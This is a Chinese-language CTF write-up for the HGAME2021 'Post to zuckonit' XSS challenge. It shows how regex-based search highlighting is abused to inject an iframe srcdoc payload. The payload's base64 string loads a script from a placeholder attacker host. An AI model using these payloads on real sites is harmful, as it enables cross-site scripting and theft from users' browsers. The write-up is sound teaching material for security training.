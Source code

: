 



### Post to zuckonit another version

考点：XSS，HttpOnly绕过

说是绕`HttpOnly`，实则并没有绕；

相比于上一道XSS：

1. 增加了HttpOnly，使得我们直接用js不能直接获取到本地cookie；

   ![image-20210220173619352](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220173620.png)

2. 修改了功能，把直接替换字符串换成了查找字符串

   ![image-20210220173856459](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220173858.png)

依然在`static/www.zip`给出了源码：[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/HGAME2021/%5BHGAME2021%5DPost_to_zuckonit2.0_another_version.zip)

源码大同小异，甚至连waf都没变，单独在字符串替换功能上修改为正则匹配并且在两端加`<b>`标签，得到高亮效果

![image-20210220174348492](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220174349.png)

如果按照正常思维来查找'a'字符串的话，效果就如下图：

![image-20210220174510622](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220174512.png)

但是我们应当注意到，这个高亮实际上还是由`String.prototype.replace()`方法来进行**正则替换**的，那么我们如果输入`.*`之类的关键词进行高亮就会出现意想不到的效果：
![image-20210220174752450](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220174753.png)

没错，因为正则替换让我们得以有机可乘

思路还是一样，先利用替换构造好XSS，再利用`<iframe src='/preview'>`来触发0-click

payload：

```
<iframe src='/preview'>
<iframe src='AAA' >
```

替换的payload：

```
AAA('srcdoc='&lt;img src=1 onerror=document.write(atob(&#x27;PHNjcmlwdCBzcmM9Imh0dHA6Ly9pcC9teWpzL0J5cGFzc19IVFRQX09ubHkuanMiPjwvc2NyaXB0Pg==&#x27;));&gt;')*
```

替换之后其实是这样：

![image-20210220175913943](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220175915.png)

实际上是利用了iframe标签的srcdoc属性和HTML实体编码来绕过

```
<iframe src="<b class=&quot;search_result&quot;>AAA(" srcdoc="<img src=1 onerror=document.write(atob('PHNjcmlwdCBzcmM9Imh0dHA6Ly9pcC9teWpzL0J5cGFzc19IVFRQX09ubHkuanMiPjwvc2NyaXB0Pg=='));>" )*<="" b="">' ></iframe>
```
